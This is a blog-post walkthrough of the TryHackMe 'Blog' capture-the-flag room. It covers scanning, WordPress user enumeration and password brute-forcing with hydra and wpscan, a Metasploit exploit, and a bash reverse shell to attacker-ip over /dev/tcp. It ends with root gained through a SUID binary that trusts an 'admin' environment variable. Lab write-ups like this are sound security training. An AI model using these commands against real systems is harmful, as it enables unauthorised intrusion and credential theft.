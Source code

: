 ```yaml
---
layout: post
title: Blog writeup
subtitle: Billy Joel made a Wordpress blog!
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/blog/logo.png
share-img: /assets/img/path.jpg
tags: [ctf,tryhackme, writeup, blog, wordpress, checker]
---
```


Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!.Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...


## Here is a machine information

| Title | Blog | 
| :------ |:--- | 
| Difficulty | Medium | 
| Point | 360 |
| Maker | Nameless0ne |
| Infor | This is a free room, which means anyone can deploy virtual machines in the room  | 

===============================================================

## RUSTSCAN, Enumeration and Gathering Information
Normally, i will use the rustscan as scan the host and gathering machine information


``` rustscan -b 500 machine-ip -- -sv -sC -A ```
<em>

-b : the batch size for port scanning, it increases or slows the speed of scanning. Depends on the open file limit of your OS.  If you do 65535 it will do every port at the same time. Although, your OS may not support this [default:4500]

-sV -sC -A: it is Nmap custom flag when rustscan run nmap.
</em>

It will take few time to scan: 

![gs1](/assets/img/blog/1.png)

After the scan is done. There expose the blog which is using Wordpress 5.0 and have smb service.
With SMB service, let's use ENUM4LINUX to check what thing is interesting.

```
enum4linux machine-ip
```

during waiting for the enumaration. Because this blog is using wordpress. Let do wpscan to check.

```
wpscan  --url machine-ip
```

![gs1](/assets/img/blog/2.png)

 There is not quite interesting thing. Let do further user enumaration.

 ```
wpscan --url machine-ip -e u
 ```

 we got 2 username: 

 ![gs1](/assets/img/blog/3.png)

 Such as longtime with Enum4linux. the scan got the same username.

 Another way to get the username. In wordpres, they have json enpoint api. 

 it is:

 ```
 http://machine-ip/wp-json/wp/v2/users
 ```

we got the same username.

![gs1](/assets/img/blog/4.png)

Trying to find credentials of 2 users. I have 2 ways to got it.

Using hydra to crack password

```
 hydra -l kwheel -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```

and we got a lot of case. but nothing is valid. 

Let try with the wpscan 
```
wpscn --url machine-ip -U bjoel,kwheel =P rockyou-wordlist.txt
```

and we got the password.

![gs1](/assets/img/blog/5.png)

Now we got the credentials. login now. 

## Got revers shell

from the goole with wordpres 5.0, we got this. this have metaspoil module.

![gs1](/assets/img/blog/6.png)

At the metaspoil, set target, rhosts, username, password. and run exploit.
At meteprete, run cmd SHELL to get into shell.


![gs1](/assets/img/blog/7.png)

Now you are got into shell. Let do revers shell.

```
nc -lvnp 1234 #run at attack machine

/bin/bash -c "bash -i >& /dev/tcp/attacker-ip/1234 0>&1"   
```

Then you have revers shell.

## Privilege Escalation

as normally, let rung sudo -l but can not because we haven't user password.

Let enum with SUID

```
find / -perm /u=s 2>/dev/null
```

From the result, there is a checker SUID. it is a bit intersting.

![gs1](/assets/img/blog/8.png)

it looks like check the admin or not. Let try to revers and read throung the code. Download the binary and analyze it using Ghidra.

with the code 
```C

int main(void) {
  char *adminEnv = getenv("admin");

  if (adminEnv == (char *)0x0) {
    puts("Not an Admin");
  } else {
    setuid(0);
    system("/bin/bash");
  }

  return 0;
}

```

It looks like check admin envirorment. But it is just only check is null or not. we can bypass this by:

```bash
export admin=admin

/usr/sbin/hecker
```

Finally we got root user.

![gs1](/assets/img/blog/9.png)

Now we can read the root flag.

```
find / -name '*.txt' 2>/dev/null

```

you will see the hidden user flag in media.

## Another way to get root

instead of the Ghidra to revers the bin file. We can use ltrace tool to check logic of bin file or strings.

Let use strings :
```
string /usr/sbin/checker
```

![gs1](/assets/img/blog/10.png)

and use ltrace to check logic of file.

```
ltrace /usr/sbin/checker

```
![gs1](/assets/img/blog/11.png)

because this is exploited already. tthat why admin here is not null.

Happy hacking!!!